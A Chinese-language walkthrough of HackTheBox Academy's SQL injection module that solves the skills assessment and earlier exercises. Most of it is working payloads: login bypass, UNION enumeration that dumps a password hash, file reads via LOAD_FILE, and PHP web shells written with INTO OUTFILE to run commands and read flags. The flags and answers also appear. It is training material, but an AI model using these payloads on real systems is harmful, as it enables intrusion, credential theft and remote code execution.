



# SQL Injection Fundamentals

题目：Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

## 解题思路

### 1  绕过身份验证

首先进入网址，发现是登录界面，可以尝试使用 OR 和注释的方法来注入。尝试在用户栏中输入 `admin' OR 1=1-- '`，发现登陆成功，进入 URN 为 `/dashboard/dashboard.php` 的页面。可以判断登录界面几无任何防护措施。

### 2  网络应用安全性检测

#### 2.1  信息泄露

在 `/dashboard/dashboard.php` 页面右上的搜索框中尝试联合注入，以探测列数，试出来的可行的注入载荷是 `' UNION SELECT 1,2,3,4,5-- -`，且网页会显示第二至第五列的内容。同样，可以使用 `ORDER BY` 来探测列数。


再注入 `' UNION SELECT 1,LOAD_FILE("/dashboard/dashboard.php"),database(),user(),5-- -`，发现无法查看到 `/dashboard/dashboard.php` 网页，说明这并非完整的路径（当时没有意识到这一问题）。同时获悉了当前数据库的名称 `ilfreight` 和当前用户 `root`。


根据获得的数据库名称，再注入 `' UNION select 1, 2, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_schema='ilfreight'-- -`，可获得两张表 `payment` 和 `users` 的列名称。


根据列名称，注入 `' UNION SELECT 1,2,id,username,password from users-- -`，得到了一个 ID 为 1 的账户 `adam` 及其密码 `1be9f5d3a82847b8acca40544f953515`。综上，该网页应用存在着极大的信息泄露的风险。


#### 2.2  源代码泄露

在我找出 `/dashboard/dashboard.php` 网页的完整路径之后，尝试注入 `SFSAD' UNION SELECT 1, LOAD_FILE("/VAR/WWW/HTML/DASHBOARD/DASHBOARD.PHP"), DATABASE(), USER(), 5-- -`，结果如下：



可以轻松查看网页源代码并获取 PHP 代码：


这里可以看到，该网页应用并没有使用输入验证，而是直接使用 `search` 参数，从而导致出现 SQL 注入漏洞。

### 3  找出可写目录

阅读  [Reading Files](https://academy.hackthebox.com/module/33/section/792) 章节，审读如下内容：

> We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

求诸谷歌，可知默认网站根目录是 `/var/www/html`。

> `var/www/html` is just the default root folder of the web server. You can change that to be whatever folder you want. most of the  popular web servers use it as  the default path.  where you  have to install a framework such as CakePHP, or the  folder you want to  install your website on.[^1]

[^1]: [What is special about directory /var/www/html? ](https://www.quora.com/What-is-special-about-directory-var-www-html)

尝试获取当前网页文件所在目录，注入 `' UNION SELECT 1,'<?php system(dir); ?>', "", "", ""  into outfile '/var/www/html/shell1.php'-- -`，发现提示 `Can't create/write to file '/var/www/html/shell1.php' (Errcode: 13 "Permission denied")`，获取失败，说明在 `/var/www/html` 目录中，当前用户无可写权限。


已知默认网站根目录是 `/var/www/html`，结合当前网页，可以推断 `/dashboard/dashboard.php` 文件就在 `/var/www/html` 之下，即 `/dashboard/dashboard.php` 的完整路径是 `/var/www/html/dashboard/dashboard.php`。猜测在 `/var/www/html/dashboard` 目录中当前用户有可写权限。

尝试注入： `' UNION SELECT 1,'file written successfully!', "", "", ""  into outfile '/var/www/html/dashboard/proof.txt'-- -`，注入成功。尝试查看 `/dashboard/proof.txt`，结果如下，成功，说明 `/var/www/html/dashboard` 是正确的可写目录。


### 4  寻找 flag

审题：

> Assess the web application and use a variety of techniques to gain remote code execution and find a flag **in the / root directory** of the file system. Submit the contents of the flag as your answer.

可以推知，包含 flag 的文件就在根目录之下。

于是，注入 `cn' UNION SELECT "",'<?php system("dir /"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -`，然后打开 `/dashboard/shell.php` 这一 URN。这一步用来查看根目录下的所有文件和目录，可以发现 flag 文件：`flag_cae1dadcd174.txt`

考虑到上一步中，最终得到的 `proof.txt` 获取的内容，再结合网页源代码，我们需要在注入载荷的开头加一串无法匹配到 `month` 列中所有值的字符串（例如 `cn`），确保不会有表中原来的的内容被搜索到，进而被添加进 shell 文件中并干扰 shell 命令的执行。


使用 `cat` 命令打开 flag文件：`cn' UNION SELECT "",'<?php system("cat /flag_cae1dadcd174.txt"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell_read.php'-- -`，注入成功后打开 `/dashboard/shell_read.php` ，得到 flag：`528d6d9cedc2c7aab146ef226e918396`


### 关于我在寻找可写目录以及找 Flag 时到底干了什么蠢事

经如下尝试：

```SQL
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/www/html/proof.txt '-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/www/proof.txt'-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/var/proof.txt'-- -
' UNION SELECT "","file written successfully!","","",""  into outfile '/proof.txt'-- -
```

发现当前用户对上述目录均无可写权限。

查看当前用户的权限，注入 `' UNION SELECT 1, user(), grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -`，发现当前 root 用户对数据库有所有权限。

此时进入一段瓶颈期。在 [Writing Files](https://academy.hackthebox.com/module/33/section/793) 的题目当中我曾使用 `'<?php system(dir); ?>'` 注入，以查看当前目录，可是没有可写目录，该注入也无法实现，形成了一个死循环。

尝试在 Cheat Sheet 中查找，未发现可用的注入载荷。但是，Cheat Sheet 中给出了 [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)，虽然里面同样没有合适的载荷，但给出了许多的参考链接。其中，[PentestMonkey's mySQL injection cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 提到了查找数据库的方法：`SELECT @@datadir;` 

尝试注入 `' UNION select 1,2,3,4,@@datadir-- -`，发现数据库所在目录为 `/var/lib/mysql/`。

再次尝试注入，在 `/var/lib/mysql` 目录下生成 web shell 文件：`' UNION SELECT 1,'<?php system(dir); ?>', "", "", ""  into outfile '/var/lib/mysql/shell1.php'-- -`，此时注入成功。

然而，在浏览器网址输入框中运行 shell 文件 `/shell1.php?id=0` 失败，同样，尝试了如下 URN，都失败了。

```
/var/lib/mysql/shell1.php?id=0
/lib/mysql/shell1.php?id=0
/mysql/shell1.php?id=0
```

尝试 `'UNION SELECT 1,LOAD_FILE("/var/lib/mysql/shell1.php?id=0"), "", "", ""-- -` 和 `'UNION SELECT 1,LOAD_FILE("/var/lib/mysql/shell1.php"), "", "", ""-- -`，均无法显示理想的内容。

尝试换一个位置去写入 web shell：`' UNION SELECT 1,'<?php system(dir); ?>', "", "", ""  into outfile '/dashboard/shell1.php'-- -`，提示 `No such file or directory`。显然根目录下没有 `/dashboard` 这一目录。这时我才真正意识到 `/dashboard/dashboard.php` 路径并不完整的问题，而使用 `dir` 来查看完整路径的想法也暂时无法实现，必须要通过其他方式来找出完整路径，才能有找出可写目录的线索。

尝试注入 `' UNION SELECT 1,'<?php system("dir /var/www/html"); ?>', "", "", "" into outfile '/var/lib/mysql/dashboard/shell1.php'-- -` ，显然 `/dashboard` 不在 `/var/lib/mysql` 之下。

最后一步，寻找 flag。下方是我所经历过的一些错误尝试。在下方的载荷中的所有目录下均没有 flag 的身影。

```SQL
cn' UNION SELECT "",'<?php system("dir /var/www/html"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' UNION SELECT "",'<?php system("dir /var/www"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell2.php'-- -

cn' UNION SELECT "",'<?php system("dir /var"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell3.php'-- -
```

## 截图（10、11 题有解析）

### 题目 12（本题）：Skills Assessment - SQL Injection Fundamentals


### 题目 1：Intro to MySQL

使用命令行，输入 `mysql -u root -h <IP> -P <Port> -p` 并输入密码来连接数据库。再根据题目要求输入 `SHOW DATABASES;`，可以查看到第一个数据库是 `employees`。


### 题目 2：SQL Statements

连接数据库并查看所有数据库，用 `USE` 选择要查看的数据库，使用 `SHOW TABLES;` 查看该数据库中的所有表格，找到 `departments` 表。使用 `SELECT * FROM departments` 语句查看该表中所有数据，发现当 `dept‌_name = 'Development'` 时，对应的 `dept‌_no = 'd005'`。


使用 `WHERE` 子句也可以直接查看 `dept‌_name = 'Development'` 时，对应的 `dept‌_no` 的内容： `SELECT * FROM departments WHERE dept_name = 'Development'`


### 题目 3：Query Results

找出 `employees` 表的方法同上。使用 `LIMIT` 子句查看列名称（`DESCRIBE employees;` 也行）。在 `SELECT` 语句中使用 `LIKE` 过滤匹配项，用通配符 `%` 来查询以 `Bar` 开头的字段，用 `AND` 来连接两个搜索条件：`SELECT * FROM employees WHERE first_name LIKE "Bar%" AND hire_date = '1990-01-01';`


### 题目 4：SQL Operators

找到表和列名称、查询匹配要求的记录的方法同上。使用 `COUNT()` 函数来对查询到的记录计数：`SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE ‘%engineer%’;`


### 题目 5：Subverting Query Logic

尝试登入并查看网页提供的 SQL 查询，根据该查询语句，使用 `tom' or '1'='1` 作为注入载荷，这里 `'1'='1` 与原查询语句中第二个引号配对，先和 `password` 语句进行与运算，得到的结果再和 `username='tom'` 进行或运算，由于 `tom` 在表中存在，所以结果为真，认证就会成功。


### 题目 6：Using Comments

OR 运算符的认证绕过方法同上一题，注意用 `)` 配对 SQL 查询语句中的左括号。在注入载荷最后添加注释符 `-- ` 或 `#` 或 `%23` 来注释掉后面的语句。


### 题目 7：Union Clause

查看两个表的列名称，使用 `UNION` 语句进行联合查询即可。


同样可以使用 `COUNT()` 函数来得到记录数：`SELECT count(dept_no) FROM departments UNION SELECT count(emp_no) FROM employees;`


### 题目 8：Union Injection

先联合 `SELECT 1,2,3,4-- ` 来同时探测出表的列数和实际显示的列（`ORDER BY` 也行）。在能被显示的列使用 `user()` 函数来返回当前用户名和主机名。


### 题目 9：Database Enumeration

仿照教程依次注入如下载荷，可获取所有用户的用户名和密码。

```sqL
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
' UNION select 1, username, password, 4 from ilfreight.users-- -
```





### 题目 10：Reading Files

> We see in the above PHP code that '$conn' is not defined, so it must be imported **using the PHP include command.**

可以推知，使用了 `include` 命令。在 [Another Example](https://academy.hackthebox.com/module/33/section/792) 中讲到，在 `/search.php` 中尝试查看 `/var/www/html/search.php`，在网页源代码中会展示该文件的全部 PHP 代码。因此只需在网页源代码中查找一下 `include` 命令，就可以找到定义 `$conn` 的文件了。

仿照教程注入 `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`，查看网页源代码，搜索 `include` 即可找到使用 PHP `include` 命令的位置，可知 `$conn` 在 `config.php` 当中。

`config.php` 所在目录是 `/var/www/html/`。注入 `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -` 即可查看 `$conn` 所有内容，找出数据库密码。




### 题目 11：Writing Files

注入 `<?php system(pwd); ?>` 并写入到 `/var/www/html/shell1.php` 当中，在 URL 中添加该 Web Shell 文件名并添加 `?id=0`，访问并运行 Web Shell。可通过上述方法使用 `pwd` 命令，查看到当前浏览的文件所在的目录。

```SQL
cn' union select "",'<?php system(pwd); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -
-- URL: <IP>:<Port>/shell1.php?id=0
```

同上，使用 `dir` 命令查看每一层目录下的所有文件和目录，最后可以在 `/var/www` 目录下找到 `flag.txt`。最后使用 `cat` 命令查看该文件即可。

---

1. 输入 `cn' union select "",'<?php system(dir); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -`
   打开 `<SERVER_IP>:<PORT>/shell1.php?id=0`
   发现当前目录为 `/var/www/html`。


2. 查看当前目录中所有文件和目录：
   重新输入 `cn' union select "",'<?php system("dir /var/www/html"); ?>', "", "" into outfile '/var/www/html/shell2.php'-- -`
   打开 `/shell2.php?id=0`
   发现当前目录下的文件有 `config.php search.php shell1.php style.css index.php shell0.php shell2.php` ，没有 flag（悲），只好到上级目录中去找。


3. 查看上一级目录中所有文件和目录：
   重新输入 `cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell3.php'-- -`
   打开 `/shell3.php?id=0`
   发现该目录下的文件有 `flag.txt html`，找到 flag 的路径。


4. 重新输入 `cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell4.php'-- -`
   打开 `/shell4.php?id=0`
   得到 flag：`d2b5b27ae688b6a0f1d21b7d3a0798cd`
   


